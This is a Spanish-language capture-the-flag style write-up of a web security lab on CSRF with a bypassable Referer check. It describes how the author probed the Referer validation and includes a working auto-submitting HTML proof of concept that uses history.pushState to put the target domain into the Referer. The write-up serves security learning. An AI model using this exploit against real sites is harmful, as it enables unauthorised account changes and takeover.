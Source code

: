 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta detectar y bloquear solicitudes entre dominios, pero el mecanismo de detección puede eludirse. Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

iniciamos sesión en el laboratorio interceptamos la solicitud de cambio de contraseña y la enviamos al repeater 
![[Pasted image 20250722123446.png]]

en este caso lo primero que hacemos es validar cual es la porción del referer que se esta validando. hasta que encontramos una respuesta `400 Bad Request` esto nos indica que la solicitud ya no se esta validando correctamente por lo que podemos identificar hasta donde llega la validación del referer.
![[Pasted image 20250722123602.png]]

creamos nuestro CSRF-POC y podemos usar el parámetro `history.pushState('', '', '/');` el primer valor hace referencia al estatus el segundo valor es el titulo y el tercero es la URL. en este caso nos interesa el de la url. 

`NOTA:` la URL puede ser relativa o absoluta. pero debe provenir desde el origen principal. en este caso usamos la url relativa ya que proviene de dicho origen.

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a60003404692c1a810ac58f00300054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a60003404692c1a810ac58f00300054.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

inyectando el valor de relativo de la URL 
![[Pasted image 20250722125434.png]]
